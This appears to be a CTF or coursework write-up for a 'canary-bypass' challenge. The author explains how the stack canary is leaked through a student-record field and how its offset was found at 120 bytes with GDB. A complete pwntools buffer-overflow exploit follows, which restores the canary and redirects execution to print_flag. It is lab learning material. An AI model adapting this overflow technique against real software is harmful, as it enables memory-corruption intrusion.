


# Canary Bypass

This challenge has stack canary enabled which means we can’t smash the stack the same way as earlier problems.

We need to avoid the canary so it can not be detected that we are trying to overflow the memory.

By trial and error I found out that  canary might be at the value of HW1: of 5th student. Not the best way of finding it out but I required help from Professor for that.

Through GDB, I found out that the stack smashing is detected if I input 120 characters. 


Less characters than that do not alert the canary.


That means canary starts from 120th byte.

For the final exploit, I leak the value of canary from HW1: of the ghost student no. 5 and then smash the stack while carefully placing the canary back it its place.

## Exploit
The final code turns out to be:
```python
from pwn import *

target = './canary-bypass'
e = context.binary = ELF(target,checksec=True)
context.log_level='debug'

io = process(target)

print(io.recvuntil(">> "))
io.sendline("5")
io.recvuntil("HW1: ")
canary = int(io.recv(10))
io.recvuntil("Letter Grade\n")
io.sendline("S")
io.recvuntil("continue \n")
io.sendline()

io.recvuntil('>> ')
io.sendline("1")
io.recvuntil("Letter Grade\n")

buf=0x78
payload = cyclic(buf)
payload += p32(canary)
payload += cyclic(0x1C)
payload += p32(e.symbols['print_flag'])
io.sendline(payload)
io.recvline()
io.sendline("q")

print(io.recvall())
io.close()
```